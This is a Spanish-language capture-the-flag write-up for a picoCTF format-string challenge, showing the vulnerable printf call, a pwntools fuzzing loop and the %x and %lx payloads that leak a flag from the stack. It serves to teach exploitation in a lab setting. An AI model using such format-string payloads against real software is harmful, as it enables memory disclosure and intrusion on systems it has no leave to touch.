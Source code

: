 # Format String 1

En este ejercicio nos dan un binario y su código en C.

El programa comprueba si existen tres archivos en el directorio actual:

* flag.txt
* secret\_menu\_item\_1
* secret\_menu\_item\_2

Si no existe alguno de esos archivos, el programa se aborta.

Cuando los tres archivos existen, el programa hace lo siguiente:

```c
./format-string-1
Give me your order and I'll read it back to you:
hola
Here's your order: hola
Bye!
```

El programa pide un input del usuario y nos devuelve lo que hemos puesto. Como el ejercicio se llama "format strings", vamos a comprobar si efectivamente es vulnerable a este tipo de ataque, revisando el código:

```c
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf); // Aquí
```

Efectivamente, podemos ver que `printf(buf);` no tiene indicado el formato, por lo tanto es vulnerable a format strings.

```c
fd = fopen("flag.txt", "r");
if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
}
fgets(flag, 64, fd); // Aquí
```

Gracias al uso de `fgets`, el contenido de flag.txt se manda al stack, lo que nos permite aprovechar la vulnerabilidad para leer la flag.

He creado un fuzzer que hace un `%x` en las primeras 100 posiciones, lo que permite ver en formato hexadecimal los 100 elementos más cercanos a la cima del stack:

```python
for i in range(100):
    try:
        p = process(level='error')
        p.sendlineafter(b'Give me your order', '%{}$x'.format(i).encode())
        result = p.recvuntil(b'Bye!')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

Resultado parcial de la ejecución:

```bash
14: b" and I'll read it back to you:\nHere's your order: 41414141\nBye!"
```

En la posición 14 obtenemos `41414141`, que corresponde a `AAAA` en hexadecimal, contenido que colocamos previamente en `flag.txt`.

Ya que sabemos en qué posición se encuentra, creamos un payload que imprima esa posición:

```c
%14$x
```

Ejecutándolo:

```c
Give me your order and I'll read it back to you:
%14$x
Here's your order: 6f636970
Bye!
```

Pasando de hexadecimal a ASCII:

```c
6f636970 → "ocip"
```

Está al revés, lo que indica que la flag está en bloques en orden inverso. Probamos con más posiciones:

```c
%14$x,%15$x,%16$x,%17$x,%18$x
```

Resultado:

```c
Here's your order: 6f636970,6d316e34,33317937,3431665f,64663533
```

Pasado a ASCII:

```
ocipm1n431y741f_df53
```

Revirtiendo los bloques:c

```
pico4n1m7y13_f1435fd
```

Esto aún no es correcto. Al investigar, nos damos cuenta de que el binario es de 64 bits, y estamos usando `%x`, que saca 32 bits. Cambiamos a `%lx` para obtener 64 bits:

```c
%14$lx,%15$lx,%16$lx,%17$lx,%18$lx
```

Resultado:

```c
Here's your order: 7b4654436f636970,355f31346d316e34,3478345f33317937,31395f673431665f,7d653464663533
```

Pasado a texto:

```c
picoCTF{SECRETO}
```

Tenemos la flag!
